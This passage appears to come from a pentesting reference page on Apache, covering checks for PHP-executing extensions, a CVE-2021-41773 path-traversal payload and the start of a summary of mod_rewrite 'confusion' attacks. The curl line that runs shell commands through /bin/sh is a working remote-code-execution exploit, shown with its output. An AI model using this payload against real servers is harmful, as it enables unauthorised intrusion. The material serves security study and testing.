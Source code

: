 # Apache


## Executable PHP extensions

Check which extensions is executing the Apache server. To search them you can execute:

```bash
 grep -R -B1 "httpd-php" /etc/apache2
```

Also, some places where you can find this configuration is:

```bash
/etc/apache2/mods-available/php5.conf
/etc/apache2/mods-enabled/php5.conf
/etc/apache2/mods-available/php7.3.conf
/etc/apache2/mods-enabled/php7.3.conf
```

## CVE-2021-41773

{% code overflow="wrap" %}
```bash
curl http://172.18.0.15/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh --data 'echo Content-Type: text/plain; echo; id; uname'
uid=1(daemon) gid=1(daemon) groups=1(daemon)
Linux
```
{% endcode %}

## Confusion Attack <a href="#a-whole-new-attack-confusion-attack" id="a-whole-new-attack-confusion-attack"></a>

These types of attacks has been introduced and documented [**by Orange in this blog post**](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1) and the following is a summary. The "confusion" attack basically abuses how the tens of modules that work together creating a Apache don't work perfectly synchronised and making some of them modify some unexpected data can cause a vulnerability in a later module.

### Filename Confusion

#### Truncation

The **`mod_rewrite`** will trim the content of `r->filename` after the character `?` ([_**modules/mappers/mod\_rewrite.c#L4141**_](https://github.com/apache/httpd/blob/2.4.58/modules/mappers/mod\_rewrite.c#L4141)). This isn't totally wrong as most modules will treat `r->filename` as an URL. Bur in other occasions this will be treated as file path, which would cause a problem.

* **Path Truncation**

It's possible to abuse `mod_rewrite` like in the following rule example to access other files inside the file system, removing the last part of the expected path adding simply a `?`:
